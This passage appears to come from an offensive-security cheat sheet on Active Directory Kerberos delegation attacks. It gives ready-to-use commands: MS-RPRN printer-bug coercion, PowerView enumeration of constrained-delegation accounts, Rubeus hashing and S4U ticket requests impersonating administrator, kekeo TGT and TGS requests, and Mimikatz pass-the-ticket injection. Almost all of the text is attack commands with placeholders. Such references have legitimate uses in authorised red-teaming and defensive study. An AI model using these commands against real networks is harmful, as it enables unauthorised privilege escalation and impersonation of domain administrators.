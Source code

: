 #### Attack
```
.\MS-RPRN.exe \\<DC NAME> \\<TARGET SERVER WITH DELEGATION>
```

### Constrained Delegation
- To execute attack owning the user or server with constrained delegation is required.
#### Enumerate users with contrained delegation enabled
- Use the ```-domain``` flag to check for other domains
```
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

#### Enumerate computers with contrained delegation enabled
- Use the ```-domain``` flag to check for other domains
```
Get-Domaincomputer -TrustedToAuth
Get-Domaincomputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

### Constrained delegation User
#### Rubeus calculate password hash
- If only password is available calculate the hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

#### Rubeus request and inject TGT + TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe s4u /user:<USERNAME> /rc4:<NTLM HASH> /impersonateuser:administrator /domain:<DOMAIN> /msdsspn:<SERVICE ALLOWED TO DELEGATE>/<SERVER FQDN> /altservice:<SECOND SERVICE> /<SERVER FQDN> /ptt
```

#### Requesting TGT with kekeo
```
./kekeo.exe
Tgt::ask /user:<USERNAME> /domain:<DOMAIN> /rc4:<NTLM HASH>
```

#### Requesting TGS with kekeo
```
Tgs::s4u /tgt:<TGT> /user:Administrator@<DOMAIN> /service:<SERVICE ALLOWED TO DELEGATE/<FQDN SERVER>|<SECOND SERVICE>/<SERVER FQDN>
```

#### Use Mimikatz to inject the TGS ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt <KIRBI FILE>"'
```
